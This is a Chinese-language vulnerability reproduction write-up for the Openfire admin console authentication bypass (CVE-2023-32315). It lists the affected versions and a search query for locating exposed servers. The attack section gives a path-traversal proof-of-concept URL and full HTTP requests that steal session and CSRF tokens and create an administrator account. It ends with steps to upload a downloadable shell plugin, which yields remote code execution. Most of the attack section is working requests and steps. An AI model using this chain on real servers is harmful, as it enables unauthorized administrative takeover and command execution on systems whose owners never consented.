 # Openfire身份认证绕过漏洞&getshell(CVE-2023-32315)

# 一、漏洞简介
      Openfire是免费的、开源的、基于可拓展通讯和表示协议(XMPP)、采用Java编程语言开发的实时协作服务器。Openfire安装和使用都非常简单，并利用Web进行管理。单台服务器甚至可支持上万并发用户。Openfire的管理控制台是一个基于 Web 的应用程序，被发现可以使用路径遍历的方式绕过权限校验。成功利用后，未经身份验证的用户可以访问 Openfire 管理控制台中的后台页面。同时由于Openfire管理控制台的后台提供了安装插件的功能，所以攻击者可以通过安装恶意插件达成远程代码执行的效果。   

# 二、影响版本
+ 3.10.0 <= Openfire < 4.6.8
+ 4.7.0 <= Openfire 4.7.x < 4.7.5

# 三、资产测绘
+ hunter`app.name="Openfire"`![1692201143517-80f3a4d3-bec2-4829-876a-090c26f9d7e0.png](./img/TunDJjI7qkurQ1y9/1692201143517-80f3a4d3-bec2-4829-876a-090c26f9d7e0-665458.png)
+ 登录页面

![1692201198433-2be7c1b6-5b9c-4f5f-9797-91444ec564ad.png](./img/TunDJjI7qkurQ1y9/1692201198433-2be7c1b6-5b9c-4f5f-9797-91444ec564ad-037854.png)

# 四、漏洞复现
## POC
当访问poc出现如下情况表示存在漏洞

```plain
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

![1692201286860-3786d6ee-869c-4059-b250-141dd492092e.png](./img/TunDJjI7qkurQ1y9/1692201286860-3786d6ee-869c-4059-b250-141dd492092e-360287.png)

EXP

1. 获取`JSESSIONID`和`csrftoken`

```plain
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1692201403607-088e873f-8b9d-4e95-bbdc-22591b30bb7c.png](./img/TunDJjI7qkurQ1y9/1692201403607-088e873f-8b9d-4e95-bbdc-22591b30bb7c-863460.png)

3. 通过上一步回去到的`JSESSIONID`和`csrftoken`替换下列数据包中相应参数，构造用户

```plain
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=qvq9l8fyflxMuwP&username=test123&name=&email=&password=test123&passwordConfirm=test123&isadmin=on&create=%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0m00xukgw3om052y56u7ppl451582.node0; csrf=qvq9l8fyflxMuwP
Upgrade-Insecure-Requests: 1
```

![1692201513050-a62bdc73-e575-464c-80f8-76e6d088d6be.png](./img/TunDJjI7qkurQ1y9/1692201513050-a62bdc73-e575-464c-80f8-76e6d088d6be-661254.png)

4. 使用创建的账户`test123/test123`,登录

![1692201674481-2f2c2a1d-6249-439e-a4c0-7092b17aa047.png](./img/TunDJjI7qkurQ1y9/1692201674481-2f2c2a1d-6249-439e-a4c0-7092b17aa047-414561.png)

5. 在插件处上传利用插件getsgell

插件下载地址：[https://download.csdn.net/download/qq_33331244/88224220](https://download.csdn.net/download/qq_33331244/88224220)

![1692202063603-a440bf6b-8bbb-4e44-b742-732bd84bb9e7.png](./img/TunDJjI7qkurQ1y9/1692202063603-a440bf6b-8bbb-4e44-b742-732bd84bb9e7-926645.png)

6. 插件上传成功

![1692202109870-8ee54e40-3ef4-459f-81d5-3f5570cbedba.png](./img/TunDJjI7qkurQ1y9/1692202109870-8ee54e40-3ef4-459f-81d5-3f5570cbedba-838296.png)

7. 进入服务器->服务器设置->shellplugin，输入密码123，即可实现rce

![1692202180669-e5ebf2c2-650b-4000-b631-60a70bc1ef45.png](./img/TunDJjI7qkurQ1y9/1692202180669-e5ebf2c2-650b-4000-b631-60a70bc1ef45-199143.png)

![1692202195272-898e77a1-37c4-43cd-97f1-5c3be719f144.png](./img/TunDJjI7qkurQ1y9/1692202195272-898e77a1-37c4-43cd-97f1-5c3be719f144-956700.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xq7trzegk6ecseyg>